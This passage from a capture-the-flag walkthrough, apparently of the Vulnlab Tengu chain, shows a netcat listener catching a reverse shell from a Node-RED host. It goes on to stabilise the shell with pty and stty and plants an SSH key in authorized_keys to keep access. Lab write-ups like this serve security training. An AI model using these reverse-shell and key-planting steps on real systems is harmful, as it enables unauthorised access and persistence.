 ```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Chains/Tengu/files]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.8.0.2] from (UNKNOWN) [10.10.186.231] 52754
bash: cannot set terminal process group (429): Inappropriate ioctl for device
bash: no job control in this shell
nodered_svc@nodered:/opt/nodered$
```

### Stabilizing Shell

We performed our usual steps to `stabilize` our `reverse shell` and added our `SSH Key` for future use like `SSH Port Forwarding`.

```c
nodered_svc@nodered:/opt/nodered$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<red$ python3 -c 'import pty;pty.spawn("/bin/bash")'
nodered_svc@nodered:/opt/nodered$ ^Z
zsh: suspended  nc -lnvp 9001



┌──(kali㉿kali)-[/media/…/Vulnlab/Chains/Tengu/files]
└─$ stty raw -echo;fg
[1]  + continued  nc -lnvp 9001

nodered_svc@nodered:/opt/nodered$ 
nodered_svc@nodered:/opt/nodered$ export XTERM=xterm
nodered_svc@nodered:/opt/nodered$
```

```c
nodered_svc@nodered:~/.ssh$ echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQDAiZ0B>
<--- CUT FOR BREVITY --->
<itfPwHWkNTqdZzOfMIAfYIuwwZkxp6Ha8S2xNrpf0hHYM5syQ==' > authorized_keys
```

```c
┌──(kali㉿kali)-[~]
└─$ ssh nodered_svc@10.10.186.231
The authenticity of host '10.10.186.231 (10.10.186.231)' can't be established.
ED25519 key fingerprint is SHA256:0PvZ2achH9c0Mm2fh69M6jkRYLkDH1KytZ1pXDpGC/Q.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.186.231' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-97-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
```